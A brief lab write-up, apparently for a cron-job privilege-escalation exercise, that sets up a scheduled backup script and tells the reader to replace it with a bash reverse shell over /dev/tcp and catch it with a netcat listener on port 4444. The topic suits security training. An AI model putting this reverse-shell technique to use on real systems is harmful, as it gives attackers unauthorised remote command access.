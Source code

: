 setup 
git clone 
sudo ./setup_cron.sh

lab writeup 
cat /etc/cron.d/backup
ls -l /opt/backup/task.sh
edit tash.sh (use reverse shell)
e.g. bash -i >& /dev/tcp/ip/port 0>&1
with listener nc -nvlp 4444  
